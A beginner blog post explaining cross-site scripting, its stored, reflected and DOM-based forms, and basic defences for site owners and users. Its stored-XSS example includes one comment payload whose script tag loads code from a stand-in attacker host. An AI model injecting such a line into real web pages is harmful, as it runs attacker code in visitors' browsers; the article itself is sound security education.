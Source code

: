```yaml
---
layout: post
permalink: security/cross-site-scripting-attack
title: 'Cross Site Scripting Attack'
excerpt: 'In this article, we are going to discover the Cross Site Scripting Attack and how to protect our application from this attack'
tags: security
---
```


## Introduction

XSS (Cross Site Scripting) Attacks occurs when attackers inject malicious script into the content of the targeted website, which is then executed by the victim's browser as it is impossible for the browser to differentiate the valid scripts from those of the hacker.

Therefore, these malicious scripts can access cookies, session tokens or other sensitive information stored by the browser and used on this site. Unlike other online attacks, XSS attacks do not directly target the application itself, but rather its users.

## How does it work ?

Consider a website that allows `<script>` tags to be embedded in its comments section. Those tags become a permanent part of the page causing the browser to include them with the rest of the website scripts each time the page is loaded. The attacker can then add a comment where he can include his script in the website :

> Very nice article. It really helped me Thank you!<br/><code><script src=”http://attackersite.com/maliciousscript.js”></script></code>

After that, each time a user accesses this page, the malicious script will be loaded. With this technique, the attacker can compromise the user's account and have access to their personal and financial data, while the user will not notice anything and probably not even navigated to the website comments section. This type of attack is called **Stored XSS Attack** and in the following section, we are going to learn more about the XSS attacks types

## XSS Attacks Types

XSS Attacks can be classified into three main categories: Stored XSS Attacks, Reflected XSS Attacks and DOM-based XSS Attacks.

### Stored XSS Attacks

A Stored or Persistent XSS is considered the most devastating cross-site scripting attack. An attacker inject malicious content (most often JavaScript code) into the target website. For example, the attacker may enter his malicious script into a blog comment or in a forum post. If there is no input validation, this code is permanently stored by the website and each time a user opens the affected website page, the malicious script is executed. This type of XSS attacks are more difficult to execute due to the difficulty of finding both a popular website with vulnerabilities that allow scripts to be permanently embedded.

### Reflected XSS Attacks

Reflected XSS attacks are the most common cross-site scripting attack. In this case, the attacker's malicious code must be part of the request sent to the web server which then return it in its response. Attackers use malicious links, phishing emails and other social engineering techniques to trick victims into making a request to the server. The malicious code is then executed in the user's browser. Since this is not a persistent attack, the attacker must deliver the malicious code to each victim. These attacks are often carried out using social networks.

### DOM-based XSS Attacks

DOM-based XSS attacks refers to a cross-site scripting flaw that appears in the DOM (Document Object Model) instead of being in part of the HTML source code. This type of attack usually happens on the client side and the malicious code is never sent to the server. This makes detection even more difficult for firewalls and security engineers as they never see the malicious code. The DOM objects that are most often manipulated are the page URL `document.URL`, the anchor part of the URL `location.hash` and the page referrer `document.referrer`.

## How to defend against it ?

<p class="mb-0 mt-1">To limit XSS vulnerabilities, website owners should :</p>

- Ensure that all their website pages that accept user input handle correctly code input such as HTML and JavaScript tags.
- Update their website and server software to prevent future exploitation of vulnerabilities that could be targeted by an XSS attack.
- Scan for web application vulnerabilities and apply necessary patches.

<p class="mb-0 mt-1">To avoid falling victim to an XSS attack, users should :</p>

- Disable scripts on pages where they are not needed.
- Keep their browser up to date to benefit from the latest bug and security fixes.
- Avoid clicking on links from emails or posts on a suspicious forum, which could redirect to corrupted pages.

## Conclusion

In this article, we have discovered how the Cross Site Scripting Attack and how to protect our web applications from this attack we hope you find it useful :)
